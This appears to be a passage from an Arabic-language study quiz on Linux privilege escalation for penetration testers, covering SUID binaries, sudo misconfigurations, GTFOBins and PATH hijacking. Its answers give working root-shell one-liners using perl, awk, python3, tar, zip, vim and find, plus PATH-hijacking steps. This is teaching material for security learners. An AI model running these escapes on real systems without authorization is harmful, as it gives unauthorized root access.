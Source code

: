 23. إزاي استغلال `find` بـ SUID بيساعدك تفتح Shell؟  
    **لأن `find` بيسمح بتنفيذ أوامر خارجية زي `/bin/bash` بصلاحيات المالك.**

24. إزاي تعديل الـ PATH بيرتبط بملف SUID؟  
    **بتغير مسار الأوامر اللي الملف بيستدعيها، فتشغل Shell بدل الأمر الأصلي.**

25. إيه الرابط بين GTFOBins واستغلال `sudo` وSUID؟  
    **GTFOBins بيديك طرق استغلال للأوامر اللي تلاقيها في `sudo -l` أو SUID.**

---

# **أسئلة للفهم (عميقة من سيناريوهات واقعية لـ Web Pentesting)**
26. لو كنت بتختبر موقع تسوق وشغلت `sudo -l` ولقيت `perl` متاح، إزاي تستغله؟  
    **بتشغل `sudo perl -e 'exec "/bin/sh";'` وتاخد Shell بصلاحيات root.**

27. تخيل إنك بتختبر سيرفر بنك ولقيت `find` بـ SUID، إيه خطتك كـ Pentester؟  
    **بتستخدم `/usr/bin/find . -exec /bin/bash -p \;` عشان تفتح Shell كـ root وتبلغ الخطر.**

28. لو كنت بتختبر منصة تعليمية وشفت `sudo -l` فيه `awk`، إزاي تثبت وجود ثغرة؟  
    **بتشغل `sudo awk 'BEGIN {system("/bin/sh")}'`، تاخد Shell، وتوري إنك وصلت root.**

29. لو سيرفر حكومي لقيت فيه ملف SUID زي `/usr/bin/vim`، إزاي تستغله؟  
    **بتشغل `/usr/bin/vim -c '!sh'`، تفتح Shell كـ root، وتبلغ الضعف.**

30. تخيل إنك بتختبر شركة شحن ولقيت `sudo -l` بيسمح بـ `python3`، إيه اللي هتعمله؟  
    **بتشغل `sudo python3 -c 'import pty; pty.spawn("/bin/bash")'` وتتحكم في السيرفر.**

31. لو كنت بتختبر تطبيق طبي ولقيت ملف SUID زي `/custom_script` بيستدعي `ls`، إزاي تتصرف؟  
    **بتعمل `echo "/bin/sh" > ls`، تعدل الـ PATH، تشغل الملف، وتاخد Shell كـ root.**

32. لو سيرفر دفع أونلاين لقيت `sudo -l` فيه `tar`، إزاي تستغله كـ Web Pentester؟  
    **بتشغل `sudo tar -cf /dev/null / --checkpoint=1 --checkpoint-action=exec=/bin/sh` وتاخد Shell.**

33. تخيل إنك بتختبر موقع سفر ولقيت `/usr/bin/find` بـ SUID، إزاي تثبت خطورته؟  
    **بتشغل `/usr/bin/find . -exec /bin/bash -p \;`، تفتح Shell، وتوري إنك وصلت root.**

34. لو كنت بتختبر منصة عقارية ولقيت `sudo -l` بيسمح بـ `zip`، إيه خطوتك؟  
    **بتشغل `sudo zip /tmp/test.zip /tmp/test -T --unzip-command="/bin/sh"` وتاخد Shell.**

35. لو سيرفر بيع تذاكر لقيت ملف SUID زي `/backup` بيستدعي `cat`، إزاي تستفيد؟  
    **بتعمل `echo "/bin/sh" > cat`، تعدل الـ PATH، تشغل `/backup`، وتاخد Shell كـ root.**

---

# **أسئلة كتابة كود**
#### 36. اكتب أمر عشان تشوف الأوامر المسموحة بـ `sudo`.  
    sudo -l

#### 37. اكتب أمر عشان تستغل `vim` في `sudo` تفتح Shell.  
    sudo vim -c '!sh'

#### 38. اكتب أمر عشان تبحث عن ملفات SUID في النظام.  
    find / -perm -4000 2>/dev/null
